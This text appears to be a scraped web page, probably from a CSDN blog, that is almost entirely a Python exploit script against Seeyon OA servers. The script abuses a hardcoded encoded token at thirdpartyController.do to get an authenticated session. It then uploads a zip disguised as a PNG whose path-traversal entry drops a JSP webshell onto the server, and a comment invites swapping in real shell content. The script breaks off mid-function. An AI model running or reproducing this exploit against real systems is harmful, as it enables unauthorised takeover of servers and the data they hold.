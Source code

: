 https://blog.csdn.net/bring_coco/article/details/140336176  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnluSCXwdwxNun8KwWFZNd3CFYFhct4wN8GcLywWXDMX89icdmRZ1T3smLoAULLzCGTibr32IQjX0PQ/640?wx_fmt=png&from=appmsg "")  
  
exp  

```
# coding:utf-8
import time
import requests
import re
import sys
import random
import zipfile


la = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0',
           'Content-Type': 'application/x-www-form-urlencoded'}

def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../'+webshell_name1

def file_zip():
    shell = 'test'   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr('layout.xml', &#34;&#34;)
    zf.writestr(webshell_name2, shell)


def Seeyon_Getshell(urllist):

    url = urllist+'/seeyon/thirdpartyController.do'
    post = &#34;method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1&#34;
    response = requests.post(url=url, data=post, headers=la)
    if response and response.status_code == 200 and 'set-cookie' in str(response.headers).lower():
        cookie = response.cookies
        cookies = requests.utils.dict_from_cookiejar(cookie)
        jsessionid = cookies['JSESSIONID']
        file_zip()
        print( '获取cookie成功---->> '+jsessionid)
        fileurl = urllist+'/seeyon/fileUpload.do?method=processUpload&maxSize='
        headersfile = {'Cookie': &#34;JSESSIONID=%s&#34; % jsessionid}
        post = {'callMethod': 'resizeLayout', 'firstSave': &#34;true&#34;, 'takeOver': &#34;false&#34;, &#34;type&#34;: '0',
                'isEncrypt': &#34;0&#34;}
        file = [('file1', ('test.png', open(mm+'.zip', 'rb'), 'image/png'))]
        filego = requests.post(url=fileurl,data=post,files=file, headers=headersfile)
        time.sleep(2)
    else:
        print('获取cookie失败')
        exit()
    if filego.text:
        fileid1 = re.findall('fileurls=fileurls\+&#34;,&#34;\+\'(.+)\'', filego.text, re.I)
```